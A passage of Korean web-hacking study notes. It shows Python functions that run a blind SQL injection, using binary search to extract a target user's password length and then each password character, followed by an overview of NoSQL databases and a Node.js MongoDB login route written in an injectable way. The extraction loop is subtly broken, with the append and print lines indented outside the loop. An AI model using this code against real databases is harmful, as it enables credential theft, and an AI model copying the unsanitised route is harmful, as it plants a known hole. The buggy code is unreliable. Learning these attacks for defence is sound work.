 ```python
def _find_password_length(self, user: str, max_pw_len: int = 100) -> int:
	query_tmpl =\
	f"((SELECT LENGTH(userpassword) WHERE userid=\"{user}\")<{{val}})" 
	pw_len = self._sqli_lt_binsearch(query_tmpl, 0, max_pw_len) 
	return pw_len
```
2) 이진탐색을 사용해서 blind sql injection 수행 -> 비밀번호 획득
```python
def _find_password(self, user: str, pw_len: int) -> str: 
	pw = '' 
	for idx in range(1, pw_len+1): 
		query_tmpl = \
			f"((SELECT SUBSTR(userpassword,{idx},1) WHERE userid=\"{user}\") < CHAR({{val}}))" 
	pw += chr(self._sqli_lt_binsearch(query_tmpl, 0x2f, 0x7e)) 
	print(f"{idx}. {pw}") 
	return pw
```

## NoSQL Injection

NRDBMS 비관계형 데이터베이스
다양한 DBMS가 존재함
- Redis, Dynamo, CouchDB, MongoDB 등
- 각각의 구조와 사용 문법을 익혀야 함

**MongoDB**
특징
1. 스키마를 따로 정의하지 않아 각 컬렉션(Collection)에 대한 정의가 필요하지 않음
2. JSON 형식으로 쿼리를 작성할 수 있음
3. id 필드가 Primary Key 역할을 함
https://www.mongodb.com/docs/manual/

**Redis**
키-값(Key-Value)의 쌍을 가진 데이터 저장
메모리 기반의 DBMS
- 읽고 쓰는 작업이 빠름
- 다양한 서비스에서 임시 데이터를 캐싱하는 용도로 주로 사용함
https://redis.io/commands/

**CouchDB**
MongoDB와 같이 JSON 형태인 도큐먼트(Document)를 저장
- REST API 형식으로 요청 처리
https://docs.couchdb.org/en/latest/api/index.html

ex) MongoDB NoSQL injection
```node
app.post('/query', function(req,res) { 
	db.collection('user').find({
		'uid': req.body.uid,
		'upw': req.body.upw 
	}).toArray(function(err, result) {
		if (err) throw err;
		res.send(result);
	});
});
```